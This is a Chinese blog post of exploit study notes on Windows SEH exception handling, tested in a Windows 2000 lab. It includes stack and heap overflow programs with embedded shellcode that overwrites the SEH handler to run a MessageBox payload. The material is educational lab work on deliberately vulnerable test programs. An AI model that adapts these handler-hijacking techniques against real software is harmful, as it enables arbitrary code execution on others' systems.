 ```yaml
---
title: 漏洞学习笔记-008-Windows异常的利用
author: Misaka
date: 2020-10-25 11:32:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


SEH的栈利用和堆利用
声明：实验环境为 Windows 2000

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-008-Windows异常的利用/)


## SEH概述

- SEH是异常处理结构体(Structure Exception Handler)，是Windows异常处理机制采用的重要的数据结构。每个SEH包含两个DWORD指针：SEH链表指针和异常处理函数句柄，共8个字节
- SEH结构存放在栈中
- 线程初始化时，自动向栈中安装一个SEH作为线程默认的异常处理
- 如果程序源代码中使用了`try-except`等异常处理机制，编译器最终通过向当前函数栈帧中安装一个SEH来实现异常处理
- 栈中一般会同时存在多个SEH
- 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单项链表，位于链表最顶端的SEH通过TEB0字节偏移处的指针标识
- 异常发生时，操作系统会终端程序，首先从TEB的0偏移处去除距离栈顶最近的SEH使用异常处理函数句柄指向的代码来处理异常
- 当离事故现场最近的异常处理函数运行失败时，将顺着SEH链表依次尝试其它的异常处理函数
- 如果程序安装的所有异常处理函数都不能处理，系统将采用默认的异常处理函数，此函数将弹出错误对话框然后强制关闭程序

## SEH利用思路

- SEH存放在栈内，溢出缓冲区的数据可以淹没SEH
- 将SEH入口改为shellcode起始地址
- 溢出后错误的栈帧或堆块数据会触发异常
- Windows开始处理异常后，将shellcode当作异常处理函数而执行

## SEH的栈利用测试

### NOP测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // next SEH Record
"\x90\x90\x90\x90" // SE Handler Function Address
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // EBP
"\x90\x90\x90\x90" // Return Address
;

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill   process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char* input)
{
    char buf[200];
    int zero = 0;
    __asm int 3 // used to break process for debug
    __try
    {
        strcpy(buf, input); // overrun the stack
        zero = 4 / zero; // generate an exception
    }
    __except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}
```

#### 观察

- `0x0012FE98`地址处时shellcode的起始位置
- 当前线程一共安装了3个SEH，离栈顶最近的位于`0x0012FF68`，这是最先调用的SEH
- 我们要覆盖的地址是`0x0012FF6C`，这是处理函数的地址，内容填入ShellCode的起始地址即可

### 实际测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // Next SEH Record
"\x98\xFE\x12\x00"; // SEH Handler

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char * input)
{
    char buf[200];
    int zero=0;
    _try
    {
        strcpy(buf,input); //overrun the stack
        zero=4/zero; //generate an exception
    }
    _except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}

```

#### 观察

- 弹出MessageBox对话框成功

## SEH的堆利用测试

### 实际测试

#### 代码

```CPP
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // head of the ajacent free block
"\x88\x06\x30\x00" // 0x00300688 is the address of shellcode in first
// Heapblock
"\x30\xFF\x12\x00"; // target of DWORD SHOOT

DWORD MyExceptionhandler(void)
{
    ExitProcess(1);
    return 0;
}

void main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    memcpy(h1, shellcode, 0x200); // over flow here, noticed 0x200 means
    //512 !
    __asm int 3 // uesd to break the process
    __try
    {
        h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    }
    __except(MyExceptionhandler()){}
}
```
